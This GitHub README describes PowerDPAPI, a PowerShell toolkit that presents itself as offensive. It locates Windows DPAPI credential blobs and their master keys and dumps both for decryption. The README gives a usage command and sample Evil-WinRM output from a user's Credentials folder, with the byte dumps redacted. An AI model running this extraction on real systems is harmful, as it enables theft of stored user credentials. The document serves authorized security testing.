 # PowerDPAPI
Offensive toolkit for DPAPI written in PowerShell  
Check out my post on medium for a detailed breakdown [Fileless DPAPI Credential Extraction With PowerShell](https://medium.com/p/c9952c136463)

> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access.
## Functionality
This is currently in PoC and demonstrates the ability to:
- Locate blobs by searching from a given point and checking file signatures
- Read the master key GUID from the blob file
- Read the description from the blob file
- Find the associated master key
- Dump the blob and master key bytes for decryption
- ## Usage
1. Download and load
2. Run Invoke-PowerDPAPI with options
```
Invoke-PowerDPAPI -Path <file/directory path> -Format base64 -Verbose
```
```
*Evil-WinRM* PS C:\Users\sample.user\Documents> Invoke-PowerDPAPI -Path "C:\users\sample.user\appdata\roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9"
[*] Running PowerDPAPI
**********************************************************************
[!] Probable DPAPI blob found
[>] File: C:\users\sample.user\appdata\roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
[>] MD5 Hash: DD0259EC230BB91EF986E7B97835B0E4
[>] SHA-1 Hash: 8AFFB716BB354D804B35A6DD67A76A282AC14A9C
[>] SHA-256 Hash: 8548009D5C745646B375904CB5531E28622A595652F255A1DF2E5EB50DF3D654
[>] Master Key GUID: 556a2412-1275-4ccf-b721-e6a0b4f90407
[>] Blob Description: Enterprise Credential Data

-------------- START blob output --------------
\x01\x00\x00\x00\x92\x01\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\xD0\x8C\x9D\...redacted
--------------  EOF blob output  --------------
[>] Locating corresponding master key file
[>] Master Key Found:
    C:\Users\sample.user\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
-------------- START master key --------------
\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x35\x00\x35\x00\x36\x00\x61\...redacted
--------------  EOF master key  --------------
**********************************************************************
[*] Done.
*Evil-WinRM* PS C:\Users\sample.user\Documents>
```

